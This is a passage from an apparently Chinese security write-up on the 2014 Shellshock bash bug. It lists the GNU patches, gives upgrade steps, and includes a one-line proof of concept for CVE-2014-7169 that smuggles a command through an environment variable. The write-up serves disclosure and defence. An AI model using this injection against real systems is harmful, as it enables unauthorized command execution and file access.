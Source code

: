 从最早 GNU/Linux 发行版社区收到的补丁：

[`bugzilla.novell.com/attachment.cgi?id=606672`](https://bugzilla.novell.com/attachment.cgi?id=606672)

可以看出 BASH 的确没有做异常处理，而直接解析后就执行了。

正式的社区补丁在这里：

http://ftp.gnu.org/pub/gnu/bash/bash-3.0-patches/bash30-017 http://ftp.gnu.org/pub/gnu/bash/bash-3.1-patches/bash31-018 http://ftp.gnu.org/pub/gnu/bash/bash-3.2-patches/bash32-052 http://ftp.gnu.org/pub/gnu/bash/bash-4.0-patches/bash40-039 http://ftp.gnu.org/pub/gnu/bash/bash-4.1-patches/bash41-012 http://ftp.gnu.org/pub/gnu/bash/bash-4.2-patches/bash42-048 http://ftp.gnu.org/pub/gnu/bash/bash-4.3-patches/bash43-025

但由于补丁修复的不完整，导致了 CVE-2014-7169 的爆出,POC 如下：

```
shawn@shawn-fortress /tmp $ date -u > test_file
shawn@shawn-fortress /tmp $ env X='() { (a)=<\' bash -c 'test_file cat'
bash: X: line 1: syntax error near unexpected token `='
bash: X: line 1: `'
bash: error importing function definition for `X'
Thu Sep 25 09:37:04 UTC 2014

```

这个 POC 可以让攻击者能读文件，看来后续的故事还没结束...................(Sep 25 13:30 UTC 2014)

UTC 时间 2014 年 9 月 25 日上午，CVE-2014-7169 被 BASH 社区修复，目前主要的 GNU/Linux 发行版包括 Debian, Gentoo, OpenSUSE, CentOS, RHEL 都已经提供了相
关的升级。

2014 年 9 月 26 日，BASH 又爆出了 CVE-2014-7186 和 CVE-2014-7187：

www.openwall.com/lists/oss-security/2014/09/26/2

### 防御方案

在各种 GNU/Linux 发行版里需要升级：

Debian-based（包括 Ubuntu）:

```
sudo apt-get update && apt-get upgrade 
```

Gentoo：

```
sudo emerge --sync && glsa-check -f affected 
```

OpenSSH:

```
加入 no-pty 
```

### 后续故事
